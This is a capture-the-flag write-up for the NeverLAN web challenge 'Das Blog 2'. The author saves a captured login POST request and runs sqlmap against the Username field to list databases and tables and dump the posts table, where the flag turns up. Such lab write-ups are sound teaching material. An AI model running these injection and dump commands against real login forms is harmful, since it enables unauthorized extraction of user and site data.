

# Das Blog 2 (Web)

Hi CTF player. If you have any questions about the writeup or challenge. Submit a issue and I will try to help you understand.

Also I might be wrong on some things. Enjoy :)

(P.S Check out my [CTF cheat sheet](https://github.com/flawwan/CTF-Candy))

## Challenge solution

This challenge is basically the same as `Das blog 1`, except when we login the flag is not there. This means the flag is probably hidden in the database. We can use the sql injection to dump the database with `sqlmap`.

First I save the POST request to a text file which we will then use in sqlmap.

```
POST https://challenges.neverlanctf.com:1130/login.php? HTTP/1.1
Host: challenges.neverlanctf.com:1130
Connection: keep-alive
Content-Length: 38
Pragma: no-cache
Cache-Control: no-cache
Origin: https://challenges.neverlanctf.com:1130
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/71.0.3578.98 Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: https://challenges.neverlanctf.com:1130/login.php?
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=qc72d1v1nl3ufbj6b1bipqrdkv

Username=asd&Password=asd&submit=Login
```

```bash
$  sqlmap -r post.txt -p "Username"
```



We know it's vulnerable, let's dump the databases.

```bash
$ sqlmap -r post.txt -p "Username" --dbs
...
available databases [3]:                                                                                                                                                
[*] blog
[*] information_schema
[*] test
```

Dumping the tables

```bash
$ sqlmap -r post.txt -p "Username" --tables
Database: blog
[2 tables]
+---------------------------------------+
| posts                                 |
| users                                 |
+---------------------------------------+
```


Then we can dump the data of the table `posts`.

```
$ sqlmap -r post.txt -p "Username" --dump posts
...
    flag{Pwn3d_W1th_SQL}
...
```